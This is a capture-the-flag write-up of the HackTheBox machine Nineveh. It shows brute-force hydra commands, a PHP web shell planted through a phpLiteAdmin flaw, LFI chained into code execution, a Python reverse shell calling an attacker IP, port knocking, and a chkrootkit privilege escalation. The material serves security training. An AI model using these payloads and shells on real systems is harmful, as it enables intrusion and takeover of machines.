

## nmap
nmap -sC -sV 10.10.10.43
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-14 11:26 EDT
Nmap scan report for 10.10.10.43
Host is up (0.36s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.45 seconds
```

## gobuster
```
/root/go/bin/gobuster dir -u 10.10.10.43 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50
```



use -k to skip ssl certificate check
```
/root/go/bin/gobuster dir -u https://nineveh.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50 -k
```



## http webpage







the login page contains this comment about MySQL



so i tried using SQLMap but it didn't gave any result so i switched to https webpage



## https webpage
To access the https webpage I first added nineveh.htb (commonName from the NMAP results) to /etc/hosts file  


## zsteg
the index page contains just an image so I downloaded it using wget and tested for stego data  
to avoid SSL certificate check while using wget use --no-check-certificate  
zsteg gave some result but it wasn't useful in any way  
later I realized that 'Shutter' is just the name of the software given in the exiftool  



## binwalk
/secure_notes also gave just an image, so I tried to searched for hidden data in it  
binwalk gave a POSIX tar archive which contains the SSH key for amrois@nineveh.htb  
but we didn't found any SSH port in the nmap scan, so I did a all ports scan which gave the same results  
maybe the SSH port is open but is firewalled from external connections  
so we might be able to SSH from localhost once we get a shell but the SSH keys are not useful right now  
or maybe we need a port knock to open the SSH port





## phpLiteAdmin
/db gave a phpLiteAdmin login page, so I used hydra to bruteforce the password  



## hydra https
```
hydra -P /usr/share/wordlists/rockyou.txt -s 443 nineveh.htb https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password" -l admin -V
```



so now I can login using this password --> password123



## searchsploit





## RCE
we can follow the steps given in the CVE  
1. create hack.php



2. create a table with text field with php code as default value







I used the following php code as the default field value
```
<?php system($_GET['c']); ?>
```

3. visit hack.php in the web browser  



but the path of hack.php is "/var/tmp/hack.php" so we can't access it directly  
I tried some LFI payloads but non of them worked so i switched to http login webpage

## hydra http
SQLMap was not able to detect SQLi in the login page  
I tried to bruteforce the creds using hydra  
from the html comment we know there exists a user 'amrois' but using 'amrois' gave an "Invalid username" error   
using 'admin' gave "Invalid Password" error so we need to bruteforce for admin   
```
hydra -P /usr/share/wordlists/rockyou.txt nineveh.htb http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password" -l admin -V
```



so we can now login using these creds --> admin:1q2w3e4r5t

## LFI + RCE
after login we get this manage.php page   
the notes parameter has the value files/ninevehNotes.txt which is obviously the relative path for the txt file  





if we change the extension of the file in notes parameter we get this warning
```
/manage.php?notes=files/ninevehNotes.php
```



but if we change the name of the file in notes parameter we get this error
```
/manage.php?notes=files/nineveh.txt
```


if we change the name to something other than "ninevehNotes", it doesn't even try to include it hence we don't get any include() warning  
so there might be some check to ensure that file name contains ninevehNotes  
if we want to access the database we need to rename it to ninevehNotes.php or create a new database with this name  





now if we go to this URL, we get a parse error
```
/manage.php?notes=/var/tmp/ninevehNotes.php&c=ls
```



this is because SQL is using single quote for its queries and we also used single quote in the php payload  
after changing the single quotes to double quotes RCE worked
```
<?php system($_GET["c"]); ?>
```



## Reverse Shell
now that we have RCE we can get a reverse shell  
listen on port 8888 and visit URL with the following 'c' parameter  
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet  
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.24",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```



## netstat
I downloaded and ran LinEnum.sh, the listening TCP results were unusual because it was listening on port 22 which was close in the nmap results



we can get the same result using netstat
```
netstat -tulnp
```



we already have the SSH key for amrois that we got using binwalk on nineveh.png  
but we were not able to SSH before because port 22 is open only for localhost  
we can confirm that from the iptable rules given in "/etc/iptables/rules.v4"



we can see that requests to port 80 and 443 are accepted and to any other ports are dropped  
but we can now SSH from localhost 



## Port Knocking
Port Knocking is a method of externally opening ports on a firewall by generating a connection attempt on a set of prespecified closed ports.  

As we already have a nudge that there might be port knocking involved because we got a SSH key but nmap didn't gave any SSH port  
after we have RCE, rather than getting a reverse shell as www-data we can try to locate the knock config file to get the port knock sequence  
```
/manage.php?notes=/var/tmp/ninevehNotes.php&c=locate knock
```



```
/manage.php?notes=/var/tmp/ninevehNotes.php&c=cat /etc/knockd.conf
```



so we got the port knock sequence to open the SSH port --> 571, 290, 911 (reverse to close SSH port)  
I also found a mail in LinEnum.sh results for amrois which gave the same port knock sequence but indirectly  





from the config file we know we have to send TCP packets with 'syn' tcpflag for the port knock  
we can use nmap to do port knock, so I searched for "nmap port knock" and this was the first result



I used the following bash script to open SSH port  
-Pn --> Treat all hosts as online -- skip host discovery  
--max-retries --> as the ports are closed, nmap might try to send them request more than once and we will not get the correct port knock sequence. To avoid that max-retries is set to 0  
```bash
for i in 571 290 911; do nmap -Pn --max-retries 0 -p $i 10.10.10.43; done
```



now that the SSH port is open, we can SSH as amrois using the key we found earlier



# privEsc
## enumeration
there was a /report directory owned by amrois which contains some txt files with timestamp in their name  





filenames suggest they are generated from a cronjob so i used "crontab -l" to see the cronjobs  





so the cronjob for amrois runs every 10 minutes to remove all the txt files in /report  
but we don't know how these files are generated (it must be root's cronjob)  
so we can use 'pspy' to see what is being run as root's cronjob  

## pspy
I used pspy and also wrote a bash script to see the root's cronjob processes  



**Internal Field Separator** (IFS) is used to split lines into words. By default IFS is ' ' space.  
To split output into lines we can change the IFS to newline --> IFS=$'\n'  
It is important to note the diff syntax with variables   
also note that double quotes are used for echo "$variableName" --> to print the output with newlines
```bash
#!/bin/bash

IFS=$'\n'  #to Loop by line

old_processes=$(ps -eo command)

while true;
do
    new_processes=$(ps -eo command);
    diff <(echo "$old_processes") <(echo "$new_processes");
    old_processes=$(echo "$new_processes");
    sleep 1;
done
```



## chkrootkit
both pspy and the bash script I wrote gave the same results that chkrootkit is being run  
so I searched for chkrootkit on searchsploit and found a privEsc exploit   





we can create an executable /tmp/update and it will run as root due to chkrootkit  
so i created a bash executable with python reverse shell code  





